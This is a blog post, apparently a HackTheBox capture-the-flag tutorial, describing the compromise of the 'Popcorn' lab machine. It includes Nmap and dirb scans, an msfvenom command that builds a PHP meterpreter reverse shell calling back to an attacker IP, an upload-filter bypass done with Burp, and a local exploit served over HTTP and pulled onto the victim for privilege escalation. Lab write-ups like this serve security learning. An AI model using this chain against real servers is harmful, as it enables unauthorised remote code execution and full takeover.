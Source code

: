 ```yaml
---
layout: post
title:  "How to hack a site through an uploader"
description: "Learn pentesting web from 0 with HackTheBox (Popcorn)"
date:   2019-04-01
image:  "img/uploaderPopcorn.jpg"
tags:  [Enumeration, Pentesting WEB, Escalation Privilege, Metasploit Framework]
---
```


Hello Hackers!!   
In this day, we will learn how to have total control over a web server, all thanks to a badly configured uploader.   
Before starting I want to clarify that all my published content is done for educational, informative and ethical purposes.  
I am not responsible for the misuse they may give you.    

## With this tutorial you will learn:
  - how to intercept requests with burpsuite.
  - how to bypass file upload restrictions using burp suite.
  - how to perform a simple port scan with Nmap.
  - how to get a meterpreter session with Metasploit.
  - how to perform a directory discovery with dirb.
  - How to perform an exploit search with Searchsploit.

To carry out this demonstration, we will perform a penetration test on a vulnerable machine called **Popcorn** published on the [HackTheBox](https://www.hackthebox.eu/home/machines/profile/4) platform.  
In any process to hack or have total control over a server in an unauthorized manner must start with a system enumeration.  
For this we will perform a simple scan with Nmap, in the following way.    

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2734]
╰─[:)] # nmap -T4 -Pn -sV -F -sC -oN Popcorn.nmap 10.10.10.6
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-01 02:06 -05
Nmap scan report for 10.10.10.6
Host is up (0.20s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

{% endhighlight %}  

With the results of the Nmap, we can identify that our victim has port 22 (SSH) and port 80 (HTTP) open.  
Knowing port 80 is open in the victim’s network we preferred to explore his IP in the browser but didn’t get any remarkable clue for the next step.  

<figure>
  <img src="{{site.baseurl}}/img/Port80Popcorn.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/Port80Popcorn.png" title="Initial page running on port 80">Initial page running on port 80.</a>.
  </figcaption>
</figure>

The next step is to perform a directory discovery, for this I will use DIRB.   
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.
[Kali Linux](https://tools.kali.org/web-applications/dirb)  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2735]
╰─[:)] # dirb http://10.10.10.6 /usr/share/dirb/wordlists/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Apr  1 02:06:49 2019
URL_BASE: http://10.10.10.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

---- Scanning URL: http://10.10.10.6/ ----
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)                                                                                                     
+ http://10.10.10.6/index (CODE:200|SIZE:177)                                                                                                        
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)                                                                                                   
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)                                                                                                
+ http://10.10.10.6/test (CODE:200|SIZE:47328)                                                                                                       
==> DIRECTORY: http://10.10.10.6/torrent/

---- Entering directory: http://10.10.10.6/torrent/ ----
==> DIRECTORY: http://10.10.10.6/torrent/admin/                                                                                                      
==> DIRECTORY: http://10.10.10.6/torrent/css/                                                                                                        
==> DIRECTORY: http://10.10.10.6/torrent/database/                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/health/                                                                                                     
==> DIRECTORY: http://10.10.10.6/torrent/images/                                                                                                                                                                                              
==> DIRECTORY: http://10.10.10.6/torrent/js/                                                                                                         
==> DIRECTORY: http://10.10.10.6/torrent/lib/                                                                                                                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/readme/                                                                                                                                                                                              
==> DIRECTORY: http://10.10.10.6/torrent/templates/                                                                                                  
==> DIRECTORY: http://10.10.10.6/torrent/torrents/                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/upload/                                                                                                     
==> DIRECTORY: http://10.10.10.6/torrent/users/ 
{% endhighlight %}  

Knowing the above, we decided to explore http://10.10.10.6/torrent/ through browser URL and what we see is a Webpage shown below. 
After looking at the page for some clue, we saw that we need to register on this site first.  

<figure>
  <img src="{{site.baseurl}}/img/Port80PopcornTorrent.png">
        <figcaption>
    <a href="{{site.baseurl}}/img/Port80PopcornTorrent.png" title="Navigating in the directory /torrent">Navigating in the directory /torrent</a>.
  </figcaption>
</figure>

To continue, we will create a user in the information system by filling out the registration form.

<figure>
  <img src="{{site.baseurl}}/img/Port80PopcornCreateUser.png">
        <figcaption>
    <a href="{{site.baseurl}}/img/Port80PopcornCreateUser.png" title="Creating a user in the information system">Creating a user in the information system</a>.
  </figcaption>
</figure>

After successfully registering on the website; We managed to identify an uploader where apparently the correct use of this, is for the uploading of utorrent's and hosting them on the site.
The next step is to upload any uttorrent and then edit it, in this way we can find another uploader which will facilitate the upload of our malicious file.

<figure>
  <img src="{{site.baseurl}}/img/PopcornEditTorrent.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornEditTorrent.png" title="Editing Torrent options and Uploading uttorrent">Editing Torrent options and Uploading uttorrent</a>.
  </figcaption>
</figure>

<figure>
  <img src="{{site.baseurl}}/img/PopcornEditTorrent2.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornEditTorrent2.png" title="Editing Torrent options and Uploading uttorrent">Editing uttorrent uploaded</a>.
  </figcaption>
</figure>

Next, we are going to generate with Metasploit an exploit that allows us to connect through a reverse shell.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2738]
╰─[:)] # msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.4 lport=6969 -f raw > shell.php  
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1111 bytes
{% endhighlight %}

After generating our payload, we try to upload it to the server.
To avoid file filtering by extension that has the web server, which does not allow the upload of a file with PHP extension; what we must do is concatenate another extension that if valid on the name of our payload as follows:

<figure>
  <img src="{{site.baseurl}}/img/PopcornUploadShell.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornUploadShell.png" title="How to bypass file upload restrictions">How to bypass file upload restrictions</a>.
  </figcaption>
</figure>

We are going to start a burpsuite instance, and then we intercept the request to manipulate the extension of our malicious file.

<figure>
  <img src="{{site.baseurl}}/img/PopcornBurpsuite.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornBurpsuite.png" title="How to bypass file upload restrictions using burp suite">How to bypass file upload restrictions using burp suite</a>.
  </figcaption>
</figure>

Ok, we have our file uploaded to the victim web server.  

<figure>
  <img src="{{site.baseurl}}/img/PopcornFileUploaded.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornFileUploaded.png" title="File with PHP extension uploaded">File with PHP extension uploaded</a>.
  </figcaption>
</figure>

Now what we must do is locate this file and access it from a browser, in order to obtain RCE on the machine.  
Among the results of the previous scan with DIRB, there was a route where the files would appear to be uploaded.  
So next we decided to explore http://10.10.10.6/torrent/upload/ through browser URL and what we see is a Webpage shown below.  

<figure>
  <img src="{{site.baseurl}}/img/PopcornFileUploaded2.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornFileUploaded2.png" title="File with PHP extension uploaded">File with PHP extension uploaded</a>.
  </figcaption>
</figure>

We see that our file has been successfully uploaded.   
We click on our file, but first we must start the metasploit and tell it that we are going to wait for a connection.

<figure>
  <img src="{{site.baseurl}}/img/Popcornwww-data.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/Popcornwww-data.png" title="RCE on Popcorn HackTheBox">RCE on Popcorn HackTheBox</a>.
  </figcaption>
</figure>

Ready friends!  
We can now execute commands on our server with the www-data user, thanks to our meterpreter session that we managed to obtain.

## Privilege Escalation  
Now that we have access to the server we are going to enumerate a bit.
Initially I managed to identify something interesting on the desktop.

<figure>
  <img src="{{site.baseurl}}/img/PopcornLsR.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornLsR.png" title="Recursive list of files">Recursive list of files</a>.
  </figcaption>
</figure>

Apparently there is a folder called cache that contains a file with interesting name, we will perform a search for exploits with searchsploit indicating the name of the mentioned file.

<figure>
  <img src="{{site.baseurl}}/img/PopcornSearchsploit.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornSearchsploit.png" title="Using Searchsploit">Using Searchsploit</a>.
  </figcaption>
</figure>

Interestingly, we find 3 results, and apparently 2 of them are used for the Privilege Escalation.
At this moment, what we have to do is copy the exploit from the searchsploit directory, and to avoid later errors we use **dos2unix** to run the exploit without problems on our victim machine.
On the other hand,  In order to upload the script to our victim, I will mount an HTTP server that hosts the script that will allow us to scale privileges.; later from the victim machine I will download the file using WGET.  
We go to the folder that contains our bash script and execute the following to mount an HTTP server with Python.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2762]
╰─[:)] # cp /usr/share/exploitdb/exploits/linux/local/14339.sh ./                  
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2763]
╰─[:)] # ls
14339.sh  Popcorn.nmap  shell.php.png
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2764]
╰─[:)] # mv 14339.sh privesc.sh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2765]
╰─[:)] # dos2unix privesc.sh 
dos2unix: converting file privesc.sh to Unix format...
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2766]
╰─[:)] # python3 -m http.server                                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
{% endhighlight %}  

After having published the exploit on our HTTP server, we downloaded it to our victim machine (Popcorn) and proceed with the execution of this as indicated below.

<script id="asciicast-238104" src="https://asciinema.org/a/238104.js" async></script>

And with this we conclude the tutorial of today.

